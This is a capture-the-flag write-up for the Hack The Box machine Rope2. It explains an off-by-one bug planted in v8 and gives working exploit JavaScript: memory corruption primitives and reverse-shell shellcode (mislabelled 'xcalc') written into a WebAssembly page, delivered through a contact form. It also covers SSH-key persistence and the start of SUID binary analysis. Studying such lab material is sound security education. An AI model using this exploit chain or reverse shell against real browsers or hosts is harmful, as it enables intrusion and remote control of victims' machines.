# Write-up: Hack The Box – Rope Two

The machine Rope2 by
[r4j](https://twitter.com/r4j0x00 "https://twitter.com/r4j0x00") is
probably (one of) the hardest boxes on
[HackTheBox.eu](https://www.hackthebox.eu/ "https://www.hackthebox.eu/")
with only 104 system owns after 202 days. The theme of the box is more
or less “research”, since it requires (gaining) knowledge in many
different fields: Browser Exploitation, esoteric Heap Feng-Shui, and
finally Linux Kernel Exploitation. For me, all 3 fields were pretty new
and thus I had a lot to learn (over the course of almost exactly 3
months).

Even though the steps laid out below might sound easy and somewhat
intuitive, I’d like to point out, again, that it took me 3 months (with
several breaks to regain sanity) for all this:

1.  roughly 1 week for the browser exploit
2.  6.5 weeks for the esoteric heap exploit
3.  5 weeks for the kernel exploit

For the impatient who just want to see raw code, you can find all
exploit scripts, as well as the reverse-engineered code for rshell and
ralloc.ko on my
[Github](https://github.com/HomeSen/CTFs/tree/master/HackTheBox.eu/RopeTwo "https://github.com/HomeSen/CTFs/tree/master/HackTheBox.eu/RopeTwo")
😉

## Reconnaissance \#1

As always, everything starts with a semi-thorough nmap scan of the
target:

``` brush:
root@kali-ctf:~# nmap -sS -sV -sC -n -Pn -T5 -v -p0- 10.10.10.196
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-15 20:33 CET
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:33
Completed NSE at 20:33, 0.00s elapsed
Initiating NSE at 20:33
Completed NSE at 20:33, 0.00s elapsed
Initiating NSE at 20:33
Completed NSE at 20:33, 0.00s elapsed
Initiating SYN Stealth Scan at 20:33
Scanning 10.10.10.196 [65536 ports]
Discovered open port 22/tcp on 10.10.10.196
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Discovered open port 5000/tcp on 10.10.10.196
Discovered open port 8060/tcp on 10.10.10.196
Discovered open port 9094/tcp on 10.10.10.196
Discovered open port 8000/tcp on 10.10.10.196
Completed SYN Stealth Scan at 20:36, 182.84s elapsed (65536 total ports)
Initiating Service scan at 20:36
Scanning 5 services on 10.10.10.196
Completed Service scan at 20:37, 12.47s elapsed (5 services on 1 host)
NSE: Script scanning 10.10.10.196.
Initiating NSE at 20:37
Completed NSE at 20:37, 4.71s elapsed
Initiating NSE at 20:37
Completed NSE at 20:37, 0.48s elapsed
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Nmap scan report for 10.10.10.196
Host is up (0.10s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bc:d9:40:18:5e:2b:2b:12:3d:0b:1f:f3:6f:03:1b:8f (RSA)
|   256 15:23:6f:a6:d8:13:6e:c4:5b:c5:4a:6f:5a:6b:0b:4d (ECDSA)
|_  256 83:44:a5:b4:88:c2:e9:28:41:6a:da:9e:a8:3a:10:90 (ED25519)
5000/tcp open  http    nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.196:5000/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
8000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.7.3)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Werkzeug/0.14.1 Python/3.7.3
|_http-title: Home
8060/tcp open  http    nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Initiating NSE at 20:37
Completed NSE at 20:37, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.97 seconds
           Raw packets sent: 73652 (3.241MB) | Rcvd: 73553 (2.942MB)
```

We can see that several web servers are running on the system, though
ports 8060 and 9094 haven’t been open, when I approached the box. So,
maybe another player just tried to work out some things. On port 5000,
we have a GitLab server running, and on port 8000 a website about v8
javascript engine development with a download and contact section.

[](./rope2_00.png)

[](./rope2_01.png)

The v8 dev page will become important, later. The GitLab doesn’t allow
creating new accounts, but using the “Explore” link, we can see what
(public) repositories are hosted on the system:

[](./rope2_02.png)

The only repo has one commit contributed by the box’ author and it
introduce 2 functions to Google Chrome’s javascript engine v8:

[](./rope2_03.png)

Since the server seems to be quite slow, the original source code was
downloaded from
[Github](https://github.com/v8/v8 "https://github.com/v8/v8"), and
afterwards reverted to the according parent commit taken from the
changeset’s meta data:

[](./rope2_04.png)

Afterwards, the unified diff was applied to the original v8 source code,
in order to get the same code base as available from the machine:

``` brush:
homesen@kali-ctf:~/htb/rope2$ git clone https://github.com/v8/v8.git
Cloning into 'v8'...
remote: Enumerating objects: 209, done.
remote: Counting objects: 100% (209/209), done.
remote: Compressing objects: 100% (202/202), done.
remote: Total 811667 (delta 100), reused 92 (delta 6), pack-reused 811458
Receiving objects: 100% (811667/811667), 864.47 MiB | 19.43 MiB/s, done.
Resolving deltas: 100% (703014/703014), done.
Updating files: 100% (12719/12719), done.
homesen@kali-ctf:~/htb/rope2$ cd v8
homesen@kali-ctf:~/htb/rope2/v8$ git checkout 5c05acf729b557b01b6eb9992733417f6d2b8021
Note: switching to '5c05acf729b557b01b6eb9992733417f6d2b8021'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at 5c05acf729 [wasm][debug] Remove interpreter frame inspection
homesen@kali-ctf:~/htb/rope2/v8$ wget -O r4j.diff http://10.10.10.196:5000/root/v8/commit/7410f6809dd33e317f11f39ceaebaba9a88ea970.diff
--2021-01-15 21:23:37--  http://10.10.10.196:5000/root/v8/commit/7410f6809dd33e317f11f39ceaebaba9a88ea970.diff
Connecting to 10.10.10.196:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘r4j.diff’

r4j.diff                                    [ <=>                                                                            ]   4.15K  --.-KB/s    in 0s      

2021-01-15 21:23:37 (66.9 MB/s) - ‘r4j.diff’ saved [4249]

homesen@kali-ctf:~/htb/rope2/v8$ git apply r4j.diff
homesen@kali-ctf:~/htb/rope2/v8$ grep -A 5 ArrayGetLastElement src/builtins/builtins-array.cc
BUILTIN(ArrayGetLastElement)
{
        Handle<JSReceiver> receiver;
        ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, receiver, Object::ToObject(isolate, args.receiver()));
        Handle<JSArray> array = Handle<JSArray>::cast(receiver);
        uint32_t len = static_cast<uint32_t>(array->length().Number());
```

Following the instruction at the [Building V8 form
source](https://v8.dev/docs/build "https://v8.dev/docs/build") page
(make sure to thoroughly read it, as well as the linked pages on there),
a debug build can be built. this debug build will later aid in
developing the actual exploit.

## Spotting the bug \#1

Looking at the unified diff, the introduced vulnerability becomes
quickly apparent:

``` brush:
diff --git a/src/builtins/builtins-array.cc b/src/builtins/builtins-array.cc
index 3c2fe33c5b4b330c509d2926bc1e30daa1e09dba..99f0271e035220cd7228e8f9d8959e3b248a6cb5 100644
--- a/src/builtins/builtins-array.cc
+++ b/src/builtins/builtins-array.cc
@@ -297,6 +297,34 @@ BUILTIN(ArrayPrototypeFill) {
   return GenericArrayFill(isolate, receiver, value, start_index, end_index);
 }
 
+BUILTIN(ArrayGetLastElement)
+{
+   Handle<JSReceiver> receiver;
+   ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, receiver, Object::ToObject(isolate, args.receiver()));
+   Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+   uint32_t len = static_cast<uint32_t>(array->length().Number());
+   FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+   return *(isolate->factory()->NewNumber(elements.get_scalar(len)));
+}
+
+BUILTIN(ArraySetLastElement)
+{
+   Handle<JSReceiver> receiver;
+   ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, receiver, Object::ToObject(isolate, args.receiver()));
+   int arg_count = args.length();
+   if (arg_count != 2) // first value is always this
+   {
+       return ReadOnlyRoots(isolate).undefined_value();
+   }
+   Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+   uint32_t len = static_cast<uint32_t>(array->length().Number());
+   Handle<Object> value;
+   ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, value, Object::ToNumber(isolate, args.atOrUndefined(isolate,1)));
+   FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+   elements.set(len,value->Number());
+   return ReadOnlyRoots(isolate).undefined_value();
+}
+
 namespace {
 V8_WARN_UNUSED_RESULT Object GenericArrayPush(Isolate* isolate,
                                               BuiltinArguments* args) {
diff --git a/src/builtins/builtins-definitions.h b/src/builtins/builtins-definitions.h
index 92a430aa2c0cbc3d65fdf2f1f4f295824379dbd8..02982b1c858eb313befcb8ad9e396dcdfbf2f9ab 100644
--- a/src/builtins/builtins-definitions.h
+++ b/src/builtins/builtins-definitions.h
@@ -319,6 +319,8 @@ namespace internal {
   TFJ(ArrayPrototypePop, kDontAdaptArgumentsSentinel)                          \
   /* ES6 #sec-array.prototype.push */                                          \
   CPP(ArrayPush)                                                               \
+  CPP(ArrayGetLastElement)                                                     \
+  CPP(ArraySetLastElement)                                                     \
   TFJ(ArrayPrototypePush, kDontAdaptArgumentsSentinel)                         \
   /* ES6 #sec-array.prototype.shift */                                         \
   CPP(ArrayShift)                                                              \
diff --git a/src/compiler/typer.cc b/src/compiler/typer.cc
index 6d53531f1cbf9b6669c6b98ea8779e8133babe8d..5db31e9b733cdaa1dd2049b72b7fb6392ea4a1ab 100644
--- a/src/compiler/typer.cc
+++ b/src/compiler/typer.cc
@@ -1706,6 +1706,11 @@ Type Typer::Visitor::JSCallTyper(Type fun, Typer* t) {
     // Array functions.
     case Builtins::kArrayIsArray:
       return Type::Boolean();
+    case Builtins::kArrayGetLastElement:
+      return Type::Receiver();
+    case Builtins::kArraySetLastElement:
+      return Type::Receiver();
+
     case Builtins::kArrayConcat:
       return Type::Receiver();
     case Builtins::kArrayEvery:
diff --git a/src/init/bootstrapper.cc b/src/init/bootstrapper.cc
index 7fd1e40f661461fdbcf9228c5ce9127c3428dc7b..3a9b97e4b6426e101ca0cdc97ce1cc92aa689968 100644
--- a/src/init/bootstrapper.cc
+++ b/src/init/bootstrapper.cc
@@ -1660,6 +1660,10 @@ void Genesis::InitializeGlobal(Handle<JSGlobalObject> global_object,
                           Builtins::kArrayPrototypeLastIndexOf, 1, false);
     SimpleInstallFunction(isolate_, proto, "pop", Builtins::kArrayPrototypePop,
                           0, false);
+    SimpleInstallFunction(isolate_, proto, "GetLastElement", Builtins::kArrayGetLastElement,
+                          0, false);
+    SimpleInstallFunction(isolate_, proto, "SetLastElement", Builtins::kArraySetLastElement,
+                          0, false);
     SimpleInstallFunction(isolate_, proto, "push",
                           Builtins::kArrayPrototypePush, 1, false);
     SimpleInstallFunction(isolate_, proto, "reverse",
```

The author introduced a typical off-by-one error: The functions are made
for getting/setting the last element of an array. In order to find the
last element, the array’s length is used as an index. In C/C++, as with
most programming languages, array indexes start at 0, so the last
element would be at index `length - 1`, not `length`. After digging
through [many good tutorials and
write-ups](https://github.com/Escapingbug/awesome-browser-exploit "https://github.com/Escapingbug/awesome-browser-exploit")
about v8 exploitation, especially [Faith’s “Exploiting v8: \*CTF 2019
oob-v8”](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/ "https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/")
blog post turned out to be very helpful with understanding the necessary
v8 ~~lunacy~~ essentials: Basically, there are 2 types of arrays in v8
that are of major interest for exploitation – object and float arrays.
Additionally, addresses are stored as floats (I would really love to
know, why that is so, but that#s why we need float arrays). Past the end
of an array (behind the last element), the v8 devs placed a map that
basically determines, whether it’s a float or object array.

## Exploiting the bug \#1

Due to the off-by-one error, it is possible to manipulate this map, and
thus the type of an array can be changed dynamically. In order to cope
with the float values, and being able to work with “human-readable”
addresses, a few helpers are needed:

``` brush:
// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function hex(val) {
//    return "0x" + val.toString(16).padStart(8, "0");
    return "0x" + val.toString(16);
}
```

For converting arrays, the respective map values need to be determined.
During that, a weird bug had to be worked around: Creating an object
with 2 objects doesn’t allow accessing the map. Using an array with only
one object, does the same. I assume that it is related to [pointer
compression](https://v8.dev/blog/pointer-compression "https://v8.dev/blog/pointer-compression"),
but am not 100% sure. So, I had to create an object array with 2
elements, and remove the last one, in order to access the map value:

``` brush:
var temp_obj_a = {"A":1};
var temp_obj_b = {"B":1};
var temp_obj_arr = [temp_obj_a, temp_obj_b];
temp_obj_arr.pop(); // need to first have 2 elements inside the array, but may only have one to leak the map.
var temp_fl_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = temp_obj_arr.GetLastElement();
var fl_arr_map = temp_fl_arr.GetLastElement();
```

Object arrays actually contain only float values which are then
interpreted as addresses to the actual objects. So, by converting an
object array to a float array via the `SetLastElement` function, we can
manipulate the address of e.g. the first element. We can then convert
the float array back to an object array, and read or write arbitrary
addresses by referencing the first element, again. In order to find an
objects address, we can first place it inside an object array, convert
it into a float array, and extract the address (using the above helper
functions):

``` brush:
function addrof(in_obj) {
    // First, put the obj whose address we want to find into index 0
    temp_obj_arr[0] = in_obj;

    // Change the obj array's map to the float array's map
    temp_obj_arr.SetLastElement(fl_arr_map);

    // Get the address by accessing index 0
    let addr = temp_obj_arr[0];

    // Set the map back
    temp_obj_arr.SetLastElement(obj_arr_map);

    // Return the address as a BigInt
    return ftoi(addr) & 0xffffffffn;
}

function fakeobj(addr) {
    // First, put the address as a float into index 0 of the float array
    //tmp_val =  ftoi(temp_fl_arr[0]) & 0xffffffff00000000n;
    //tmp_val += (addr & 0xffffffffn);
    temp_fl_arr[0] = itof(addr);
    //temp_fl_arr[0] = itof(tmp_val);

    // Change the float array's map to the obj array's map
    temp_fl_arr.SetLastElement(obj_arr_map);

    // Get a "fake" object at that memory location and store it
    let fake = temp_fl_arr[0];

    // Set the map back
    temp_fl_arr.SetLastElement(fl_arr_map);

    // Return the object
    return fake;
}


// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [fl_arr_map, 1.2, 1.3, 1.4];
```

In older versions of v8, we would now be done with preparing our
exploit, and would just get the address of libc, overwrite the
`__free_hook` with the address of `system`, and gain code execution by
simply allocating and freeing a string with the content `/bin/sh`. But
as mentioned above, the v8 devs introduced major performance gains using
pointer compression: Basically, the accounted for the heap not being
allowed to grow larger than 4GB (or 32bit). Thus, the upper 32 bits of a
heap address would always be the same (or can be arranged in that way).
So, this static part of the address was moved into a dedicated register
– namely r13 – and heap addresses would only require 32 bits, allowing
to store 2 addresses in one 64 qword. So, in order to know which of the
2 dwords currently has to be used, addresses will be tagged by
setting/unsetting the least-significant bit, and then masking the float
values accordingly:

``` brush:
function read4(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
    addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x08
    //var tmp_val = 2n << 32n;    // length field of fake object array
    //tmp_val += (addr & 0xffffffffn) - 0x08n;
    //arb_rw_arr[1] = itof(tmp_val);
    arb_rw_arr[1] = itof(((BigInt(addr) & BigInt(0xffffffff)) - 0x08n) | (BigInt(0x2)<<BigInt(32)))

    // Index 0 will then return the value at read_addr
    //arb_rw_arr[0] = obj_arr_map;
    data = ftoi(fake[0]);
    //arb_rw_arr[0] = fl_arr_map;
    return data;
}

function write4(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x08
    arb_rw_arr[1] = itof(((BigInt(addr) & BigInt(0xffffffff)) - 0x08n) | (BigInt(0x2)<<BigInt(32)))

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}

function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x14n;
    write4(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}

function write_shellcode(addr, sc) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x14n;
    write4(backing_store_addr, addr);

    for (let i=0; i<sc.length; i++) {
        dataview.setUint8(i, sc[i], true);
    }
}
```

But even now we can’t simply pop a shell by calling system, since
Chrome/v8 is running websites inside a sandboxed environment. Luckily,
this isn’t true for web assembly. So, by adding some web assembly, and
then dynamically rewriting the shellcode, we can still gain a shell:

``` brush:
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = read4(addrof(wasm_instance)-1n+0x68n);
console.log("[+] RWX Wasm page addr: " + hex(rwx_page_addr));

// https://www.exploit-db.com/exploits/41477
var shellcode = [0x68, 10, 10, 14, 91, 0x66, 0x68, 0x11, 0x5c, 0x66, 0x6a, 0x02, 0x6a, 0x2a, 0x6a, 0x10, 0x6a, 0x29, 0x6a, 0x01, 0x6a, 0x02, 0x5f, 0x5e, 0x48, 0x31, 0xd2, 0x58, 0x0f, 0x05, 0x48, 0x89, 0xc7, 0x5a, 0x58, 0x48, 0x89, 0xe6, 0x0f, 0x05, 0x48, 0x31, 0xf6, 0xb0, 0x21, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48, 0x83, 0xfe, 0x02, 0x7e, 0xf3, 0x48, 0x31, 0xc0, 0x48, 0xbf, 0x2f, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x48, 0x31, 0xf6, 0x56, 0x57, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xd2, 0xb0, 0x3b, 0x0f, 0x05];

console.log("[+] Copying xcalc shellcode to RWX page");
write_shellcode(rwx_page_addr, shellcode);
console.log("[+] Popping shell");
f();
```

## Gaining shell \#1

Javascript is (usually) a client-side scripting language, and v8 is a
browser’s javascript engine. So, the exploit works when opened in a
(vulnerable) browser, but we are attacking a server with no real human
in-front of the keyboard.

It turned out that, again, user interaction gets emulated on that
system, and here the v8 devs website on port 8000 comes into play: We
can send HTML code inside the contact form, and it will be properly
rendered by the server’s browser:

[](./rope2_05.png)

If we used an actual web server, and replaced the image with an iframe,
we could serve our malicious payload, and gain our first shell:

[](./rope2_06.png)

This shell will only last until the request times out, so it is advised
to add a public ssh key into chromeuser’s `authorized_keys` file 😉

## Reconnaissance \#2

The current chromeuser doesn’t give us the user flag just yet. Instead,
the `passwd` file tells us that there is a user named r4j, so that we
need to escalate to that user for getting the user flag. Using
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS"),
we can quickly see that there is a strange binary owned by r4j with the
SUID flag set:

[](./rope2_07.png)

After downloading the file and investigating it with Ghidra, it becomes
apparent that it isn’t a typical restricted shell (like e.g. `rbash`)
but some custom binary that has to be exploited.

## Spotting the bug \#2

After spending a lot of time in Ghidra, IDA Free and BinaryNinja it was
possible to somewhat reconstruct rhell’s original code:

``` brush:
struct rshell_file {
    char *content_ptr;
    char name[200];
};

void main(void)
{
  ssize_t bytes_read;
  char buffer[200];

  initialize();
  memset(buffer,0,200);
  do {
    do {
      printf("$ ");
      bytes_read = read(0,buffer,199);
    } while (bytes_read < 2);
    buffer[bytes_read - 1] = '\0';
    process_input(buffer);
  } while( true );
}


void initialize(void)
{
  int i;
  
  setreuid(1000,1000);
  setvbuf(stdin,0x0,2,0);
  setvbuf(stdout,0x0,2,0);
  setvbuf(stderr,0x0,2,0);
  
  for (i=0; i<2; i++) {
    memset(g_file_array[i].name,0,200);
    g_file_array[i].content_ptr = NULL;
  }
  
  return;
}


void process_input(char *input)
{  
  if (strncmp(input, "ls", 2)) {
    ls_file();
  } else if (strncmp(input, "add ", 4)) {
    add_file(input + 4);
  } else if (strncmp(input, "rm ", 3)) {
    rm_file(input + 3);
  } else if (strncmp(input, "echo ", 5)) {
    puts(input + 5);
  } else if (strncmp(input, "edit ", 5)) {
    edit_file(input + 5);
  } else if (strncmp(input, "whoami", 6)) {
    puts("r4j");
  } else strncmp(input, "id", 2)) {
    puts("uid=1000(r4j) gid=1000(r4j) groups=1000(r4j)");
  }
  else {
    printf("rshell: %s: command not found\n", input);
